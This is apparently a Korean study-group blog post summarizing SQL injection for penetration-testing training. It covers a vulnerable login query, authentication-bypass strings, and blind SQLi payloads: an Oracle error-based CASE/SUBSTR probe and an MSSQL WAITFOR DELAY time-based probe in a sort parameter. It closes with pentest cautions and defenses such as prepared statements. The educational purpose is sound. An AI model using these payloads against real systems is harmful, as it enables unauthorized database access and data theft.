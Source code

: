 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[WEB HACKING] SQL Injection 정리"
excerpt: "모의해킹 취업반 스터디 7기 5주차"

date: 2024-11-13
last_modified_at: 2024-12-21

tags: [TIL, WEB, DATABASE, SECURITY]
---
```


# SQL Injection(주입)
## 개요
설계된 쿼리문에 의도하지 않은 미상의 쿼리를 임의로 삽입하려 악의적인 SQL 구문을 실행하는 공격이다.
공격자는 데이터베이스에 직접적으로 접근해 중요 정보를 조회, 탈취할 수 있다.

## 기본 개념
[DATABASE와 SQL문 설명](./Database_and_SQL.md)

## 작동 방식
사용자 ID와 PW를 입력받으면 SQL 쿼리는 아래와 같이 작동한다.

``` js
"SELECT * FROM member WHERE UserId = '" +
InputId + "' AND UserPw = '" +
InputPw + "'";
```

만약 사용자가 ID를 admin, PW를 1234로 입력한다고 한다면
SQL 쿼리는 다음과 같이 실행된다.
``` 
"SELECT * FROM member WHERE UserId = '
admin' AND UserPw = '1234'";
```

ID: admin
PW: blabla'or1=1

``` 
"SELECT * FROM member WHERE UserId = '
admin' AND UserPw = 'blabla'or1=1'";
```
비밀번호가 blabla는 아니기 때문에 False
test' and '1'='1
test' or '1' = '1
test' # -> 뒤 주석처리

or와 and 연산자
연산자끼리의 우선순위: and 먼저, or 뒤

-> 로그인 페이지에서 실습해보기

## 공격 유형에 따른 분류
### Union SQL Injection
[Union SQL Injection](./Union_SQL_Injection.md)

### Error Based SQL Injection
[Error Based SQL Injection](./Error_Based_SQL_Injection.md)

### Blind SQL Injection
[Blind SQL Injection]()

# sqli
## SQL Injection Exploit

## 
웹페이지
-> SQL 질의문을 사용하는 곳
-> 서버 측 SQL 질의문 추론 후 공격 시도

## 모의해킹 할 때 주의할 점
1. insert, delete, update 지양
    이 구문들에서는 or, 주석 지양
2. 주석 남용 금지
3. 데이터 변조 금지

## 
`65/**/and/**/1=1`

order by title desc '___'
`sotingAD=, (case+when+ascii(substr((select+user+from+dual),1,1))=0+then+1+else+(1/0)+end)`
1/0 -> oracle error

Time Based Blind SQLi
waitfor delay
order by ___
`sotingAD=ASC;if+substring((select%20user_name()),1,1)=%27a%27+waitfor+delay+%270:0:1%27&startDt=&endDt=&keyword=`

# 인증 우회
* brute force: 무작위 대입 공격
* 사전 대입 공격
-> 인증 횟수 제한

# 인증 건너뛰기
* 이전 페이지에서 건너뛰지 않았는지 확인하기

## 대응 방안
prepared statement
white list filtering

# 참고
* [SQL Injection](https://developer.mozilla.org/ko/docs/Glossary/SQL_Injection)
